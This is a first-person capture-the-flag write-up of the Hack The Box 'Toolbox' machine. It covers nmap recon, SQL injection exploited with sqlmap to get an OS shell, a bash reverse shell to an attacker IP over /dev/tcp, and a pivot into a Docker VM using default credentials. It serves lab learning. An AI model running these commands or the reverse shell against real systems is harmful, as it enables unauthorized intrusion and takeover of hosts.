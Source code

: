 ```yaml
---
tite: Toolbox
date: 2023-01-04 13:30:03 -5000
categories: []
tags: []
---
```

# Toolbox (HTB Easy)
![image description](/Assets/Pictures/Toolbox/Toolbox.png)

# 🔎 Intell/Recon

## Intellingence Gathering

Here we kick off our **nmap** scan in order to see which technology is being run on the server

Here is the results of our different scans

First we look for open ports

`nmap -p- -vv --min-rate 5000 --reason -oN ./Nmap/initial.log 10.10.10.236`

<figure><img src="/Assets/Pictures/Toolbox/image (4).png" alt=""><figcaption><p><em>Open ports</em></p></figcaption></figure>

We can now check the service Version in order to gatherr more information

`nmap -sV -p- -vv --min-rate 5000 -oN ./services-scripts.log 10.10.10.236`

<figure><img src="/Assets/Pictures/Toolbox/image (1).png" alt=""><figcaption><p><em>Services Enumeration</em></p></figcaption></figure>

## Enumeration

### FTP

Let's start with the low hanging fruit as _@thecybermentor_ always thought us. For this system here. It make sense to start with FTP on port 21. \
We do not have credentials so we will get it with the anonymous login

<figure><img src="/Assets/Pictures/Toolbox/image (8).png" alt=""><figcaption><p><em>FTP session</em></p></figcaption></figure>

This file is too heavy, for me to download. I will keep that in mind that the system has a docker-toolbox.exe file. Which suggest that the system must have docker installed in it. There is sadly nothing more to see here

### HTTPS

Now let's visit the webpage at `https://10.10.10.236/`

<figure><img src="/Assets/Pictures/Toolbox/image (12).png" alt=""><figcaption><p><em>the Website</em></p></figcaption></figure>

As we can see it's more of a static webpage. I checked the source code and ran some directory busting but nothing really juicy is coming out. Then I needed to check for the presence of Virtual Hosts (VHOST) on the target. The are two ways to do it. First, I check with the scripts of nmap cause it leaks sometimes. I did not need to run any directory busting to find the vhost it was there while getting the nmap script

`nmap -sVC -p443 -vv -T5 -oN services-HTTPS.log 10.10.10.236`

<figure><img src="/Assets/Pictures/Toolbox/image.png" alt=""><figcaption><p><em>Nmap service Version &#x26; Scripts</em></p></figcaption></figure>

We found our VHOST which is _**admin.megalogistic.com**_** ** and we also found a username which is _'admin'_

# 👣 Foothold

We have the admin subdomain and we know the username to access the admin panel.

for that let's add the new subdomain to our hosts file with the following:&#x20;

`echo "10.10.10.236    admin.megalogistics.com" | sudo tee -a /etc/hosts`

<figure><img src="/Assets/Pictures/Toolbox/image (10).png" alt=""><figcaption><p><em>login panel of admin.megalogistic.com</em></p></figcaption></figure>

I tried the usual admin:admin but no success. Since it's login form next thing would be to fire burp and see what's going on. But before that, let's try some SQL injection payloads to see what's going on here. I tried with the login = admin' or 1=1. There was an interesting error message suggesting that we have an sqlinjection vulnerability here.

Here is the error message, I got&#x20;

<figure><img src="/Assets/Pictures/Toolbox/image (13).png" alt=""><figcaption><p><em>Error from login Panel</em></p></figcaption></figure>

From the error we can literally see the SQL query that helps the user to log in. So from Burpsuite, we will get the POST request and use SQLMap in order to exploit this vulnerability

# 📚 SQLMap

The command was simple. I had to copy the POST request from Burpsuite into a file and then use it to test and see what we can get. I tried first to run a system command in order to see that it's vulnerable\
`sqlmap -r request.txt --batch --force-ssl  --os-cmd whoami`` `_``_&#x20;

<figure><img src="/Assets/Pictures/Toolbox/image (6).png" alt=""><figcaption><p><em>SQLMap results</em></p></figcaption></figure>

Since we are able to see the user on the system, we can get a reverse shell as well.

With the following:

`sqlmap -r request.txt --batch --force-ssl   --os-shell`

<figure><img src="/Assets/Pictures/Toolbox/image (7).png" alt=""><figcaption><p><em>SQLMap os-shell</em></p></figcaption></figure>

The next thing that needs to be done is to get a stable reverse-shell since this one can not be used for enumeration. In order to do so we will need to have our listener set with _nc -nvlp 9090_ on our terminal and the following to get our rever-shell.&#x20;

`bash -c "bash -i >& /dev/tcp/[YOUR-IP]/9090 0>&1"`

<figure><img src="/Assets/Pictures/Toolbox/image (2).png" alt=""><figcaption></figcaption></figure>

# 🏴☠ User Flag

Since the user in the system is _postgres_ we need to navigate to that directory in order to get the flag

<figure><img src="/Assets/Pictures/Toolbox/image (11).png" alt=""><figcaption><p><em>User flag</em></p></figcaption></figure>

After getting the, I spent time enumerating the box. Found the real I.P and the hostname. Which is not similar to the one we are going after. We are suppose to be attacking a windows machine but seems like we need to pivot to the target

<figure><img src="/Assets/Pictures/Toolbox/image(14).png" alt=""><figcaption><p><em>System Enumeration</em></p></figcaption></figure>

After the enumeration and looking at the info i gathered. I remember I have found a docker file in the FTP server. After checking on the documentation, I can ssh to the docker

# 🏁 Privesc

Now that we know we can ssh to the docker container. I could not find any credentials on the system. A little search lead me to this [Github Page](https://github.com/boot2docker/boot2docker#ssh-into-vm). In order to understand more on what is happening and see what are the default credentials. __&#x20;

using ssh, I was able to get the docker instance.

_`ssh docker@172.17.0.1`_

_We used 172.17.0.1 since the other box where we got our foothold had an address of 172.17.0.2 which in turn suggest that the docker machine should be at 172.17.0.1_

<figure><img src="/Assets/Pictures/Toolbox/image (5).png" alt=""><figcaption><p><em>Boom ! docker admin user</em></p></figcaption></figure>

Now that we are in the container, we can run some commands to see how to privesc. In order to do that we will need to run some OS commands in order to enumerate the system. turns out,&#x20;

_`sudo -l`_ was enough for us, and running _`sudo su`_ gives the root shell

<figure><img src="/Assets/Pictures/Toolbox/image (9).png" alt=""><figcaption><p><em>Windows File System</em></p></figcaption></figure>

Keep in mind it's a windows machine so the path should be same as the traditional. Which is

_C:\Users\Administrator\\_ the flag should be sitting somewhere in the admin directory.\
\
Thanks for reading. This is my first write-up. Hope this was helpful.
### Happy Hacking !